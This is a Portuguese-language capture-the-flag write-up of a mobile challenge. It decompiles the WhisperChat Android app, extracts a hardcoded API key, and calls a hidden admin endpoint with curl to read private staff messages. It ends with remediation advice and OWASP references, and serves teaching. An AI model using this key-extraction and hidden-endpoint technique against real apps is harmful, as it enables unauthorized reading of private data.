

# Whispers in the Wire | Fluid Attacks CTF 2026

`mobile` `android` `hidden-endpoint` `broken-access-control` `hardcoded-api-key` `reversing`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | Mobile |
| **Resolvido em** | 2026-07-04 |

## TL;DR

O app WhisperChat embute uma API key compartilhada no código e, mais importante, a interface Retrofit decompilada declara um endpoint que o app nunca chama pela UI: `@GET("api/admin/messages")`, comentado como "every channel, including private staff threads" e que "carries the same shared API key as everything else". Extraio a key do `ApiClient.java`, chamo o endpoint oculto `/api/admin/messages` direto com `curl` e leio as mensagens privadas de staff, onde está a flag.

> [!IMPORTANT]
> **Ideia-chave:** decompilar um app revela toda a superfície de API, inclusive rotas "escondidas" que a UI só mostra para quem é staff. Se a autorização é só "a UI não mostra o botão" e todas as rotas usam a mesma chave, qualquer um chama a rota de admin.

## Enunciado

> WhisperChat, a private messaging app. Staff conversations are confidential.

**Arquivos / instância:** o APK decompilado (`com.whisperchat.app`) e um client de exemplo (`whisper_client.py`). Na minha instância o host era `96fd02fe7f6ccace.chal.ctf.ae`.

## Dicas progressivas

<details><summary>Dica 1</summary>O client de desktop traz a <code>X-API-Key</code> em texto puro. Mas essa key dá acesso a quê, além do que o app mostra?</details>
<details><summary>Dica 2</summary>Olhe a interface Retrofit decompilada (<code>WhisperApi.java</code>). Nem todo método está ligado à UI.</details>
<details><summary>Dica 3</summary>Existe um <code>@GET("api/admin/messages")</code>. Chame-o direto com a mesma API key.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, `curl`. Nenhum script: duas requisições resolvem.

***INSERIR no terminal: Kali (atacante)

```bash
export TARGET=96fd02fe7f6ccace.chal.ctf.ae
export APIKEY=fluidctf-api-2026-whispers
```

Na minha instância o host era esse. A API key vem do app (abaixo).

## Resolução

### 1. Revisão do código: a key e o endpoint escondido

O client de exemplo (`whisper_client.py`) e o `ApiClient.java` carregam a mesma key:

#### `com/whisperchat/app/data/ApiClient.java`

```java
private static final String API_KEY = "fluidctf-api-2026-whispers";
// ...
.header("X-API-Key", API_KEY)
.header("User-Agent", "WhisperChat/1.4.2 (Android 14; SDK 34)")
```

Até aí, uma API key hardcoded (ruim, mas o client já a expunha). O ouro está na interface Retrofit:

#### `com/whisperchat/app/data/WhisperApi.java`

```java
/* Retrofit service describing every WhisperChat backend route.
 * Generated from the v1 API contract; not every method is wired to UI. */
public interface WhisperApi {
    @GET("api/messages")
    Call<MessageList> getMessages(@Query("recipient") String recipient);

    @POST("api/messages")
    Call<Message> sendMessage(@Body Message message);

    /* Admin console feed: every channel, including private staff threads.
     * Reached from SettingsActivity only when the account is staff, but the
     * call carries the same shared API key as everything else. */
    @GET("api/admin/messages")
    Call<MessageList> getAdminMessages();
}
```

O comentário entrega tudo: `api/admin/messages` devolve todos os canais, inclusive threads privadas de staff, e usa a mesma key compartilhada. A única "proteção" é que a UI só abre essa tela para contas de staff. Mas isso é controle de acesso no cliente, que eu ignoro chamando a rota diretamente.

> [!TIP]
> **Conceito: controle de acesso no cliente + endpoint oculto (BOLA/BFLA).** Esconder um endpoint da UI não é autorização. Decompilar o app lista todas as rotas do contrato (aqui, uma interface Retrofit inteira). Se a rota administrativa não valida o papel no servidor (só confia que "só staff chega até aqui"), é Broken Function Level Authorization. Referência: [OWASP API Security: API5 Broken Function Level Authorization](https://owasp.org/API-Security/editions/2023/en/0xa5-broken-function-level-authorization/).

### 2. Exploração

Baseline: o endpoint público `/api/messages` já responde com a key. Depois chamo o endpoint oculto `/api/admin/messages`, que a UI nunca exporia.

***INSERIR no terminal: Kali (atacante)

```bash
curl -sk "https://$TARGET/api/admin/messages" -H "X-API-Key: $APIKEY"
```

```text
{"count":5,"messages":[
  {"body":"Vault recovery code for Q2: flag{c7c7d3f93d2XXXXX}","id":"f85df37d-...","private":true,"recipient":"ops","sender":"admin","timestamp":"2026-04-09T18:42:00Z"},
  {"body":"Hey, did you finish the quarterly report?","sender":"alice","recipient":"bob", ...},
  {"body":"Almost done. I'll send it by EOD.","sender":"bob","recipient":"alice", ...},
  {"body":"Meeting moved to 3pm. Conference room B.","sender":"carol","recipient":"alice", ...},
  {"body":"Got it, thanks!","sender":"alice","recipient":"carol", ...}
]}
```

A primeira mensagem é a thread privada `admin -> ops` (`"private":true`), que a UI jamais mostraria para uma conta comum, e é onde mora a flag.

## Cadeia de ataque



## Por que funciona

A suposição quebrada é que a tela de admin, visível só para contas de staff, protege as mensagens privadas. A proteção estava no app (mostrar ou não a tela), não no servidor. A rota `/api/admin/messages` aceita a mesma API key que toda requisição carrega e não verifica se o chamador é staff. Decompilar o app expõe o contrato completo da API, então a rota "escondida" deixa de ser secreta. A primitiva é ler qualquer canal, e o impacto é a thread privada com a flag.

## Remediação

- Autorizar no servidor: `/api/admin/*` deve exigir uma credencial de staff distinta, não a mesma API key de todos os clientes.
- Não embutir API keys no app; usar tokens por usuário, com escopo.
- Não tratar "a UI não mostra" como controle de acesso.

## Lições e padrões

- **Sinais para reconhecer:** API key única compartilhada, interface de rede decompilável (Retrofit/OkHttp) com comentários do tipo "not wired to UI"/"staff only", rotas `admin`/`internal`/`debug` no contrato. Sempre liste todas as rotas, não só as que a UI usa.
- **Da próxima vez eu tentaria primeiro:** `grep -r "@GET\|@POST\|api/" nas sources decompiladas` para listar o contrato inteiro, e bater cada rota administrativa com a key encontrada.

## Referências

- [OWASP API5:2023 Broken Function Level Authorization](https://owasp.org/API-Security/editions/2023/en/0xa5-broken-function-level-authorization/)
- [OWASP MASTG: Testing Network Communication / endpoints](https://mas.owasp.org/MASTG/)

## Flag

```text
flag{c7c7d3f93d2XXXXX}
```
